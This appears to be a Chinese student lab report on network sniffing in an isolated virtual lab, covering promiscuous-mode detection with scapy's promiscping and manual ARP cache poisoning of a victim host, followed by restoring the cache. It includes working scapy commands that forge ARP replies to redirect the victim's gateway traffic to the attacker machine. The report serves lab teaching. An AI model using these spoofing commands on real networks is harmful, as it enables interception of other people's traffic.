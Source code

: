 # 网络监听

## 实验目的
进行网络监听

## 实验过程
 
### 网络设置

各主机的网络配置

- `kali-victim`

![v-net](img/v-net.png)

![kali-victim](img/v-ip.png)

- `kali-attacker`

![a-net](img/a-net.png)

![kali-attacker](img/a-ip.png)

- `debian-gateway`

![g-net](img/g-net.png)

![debian-gateway](img/g-ip.png)


|主机|||
| ---- | ---- | ----|
|kali-victim|[172.16.111.117] |[08:00:27:45:5f:bf]|
kali-attacker|[172.16.111.115] |[08:00:27:87:ce:01]|
debian-gateway|[172.16.111.1] |[08:00:27:41:27:6a]|


### 攻击者主机安装`scapy`

安装 python3
```
sudo apt update && sudo apt install python3 python3-pip
```

ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
```
pip3 install scapy[complete]
```
![scapy-install](img/scapy-install.png)

### 实验一：检测局域网中的异常终端

先在受害者主机上检查网卡的【混杂模式】是否启用，此时结果里应该没有出现` PROMISC` 字符

命令：
```
ip link show eth0
```

![eth0](img/eth0.png)

然后在攻击者主机上开启`scapy`：
```
sudo scapy
```
并且在scapy的交互式终端输入以下命令：
```
pkt = promiscping("172.16.111.117")
```

![soduscapy](img/sudoscapy.png)

接着回到受害者主机开启网卡的【混杂模式】,再次查看

同时打开受害者主机的`wireshark`选择`eth0`端口进行抓包

```
sudo ip link set eth0 promisc on

ip link show eth0
```
![promisc-on](img/eth0-on.png)

再回到攻击者主机执行命令：
```
pkt = promiscping("172.16.111.117")
```
![re-pkt](img/repkt.png)

在混杂模式下，受害者主机收到了数据包。

查看受害者主机的`wireshark`

![wireshark](img/wireshark.png)

可以看到收到了`promiscping`命令发送的数据包

在关闭网卡的【混杂模式】的情况下，则无法成功发送

### 实验二：手工单步“毒化”目标主机APR缓存

首先查看当前局域网的网关MAC地址

构造一个APR请求，并查看一下具体内容，然后将这个APR发送

```
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

arpbroadcast.show()

recved = srp(arpbroadcast, timeout=2)

gw_mac = recved[0][0][1].hwsrc
```
![arp](img/arp.png)

接下来是发送给受害者主机

将APR响应的目的MAC地址设置为攻击者主机的MAC地址，把伪造的ARP响应数据发送给受害者主机

```
arpspoofed = Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.117", hwdst="08:00:27:87:ce:01")

sendp(arpspoofed)
```
![notreal](img/notreal.png)

在受害者主机上查看会发现网关的MAC地址已被修改成攻击者主机的MAC地址

使用命令`ip neigh`查看

![repalce](img/replace.png)

伪装网关给受害者发送ARP响应

```
restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:41:27:6a", pdst="172.16.111.117", hwdst="08:00:27:45:5f:bf")

sendp(restorepkt1, count=100, inter=0.2)
```

![restorepkt1](img/restorepkt1.png)

接着在受害者主机上输入命令`ping 172.16.111.1`

让ARP刷新成功后退出`ping`

再次查看受害者主机的ARP缓存，可以看到恢复到正常情况

![ping](img/back.png)


## 参考资料
[scapy中的ARP](http://www.noobyard.com/article/p-pxkbxnav-hr.html)



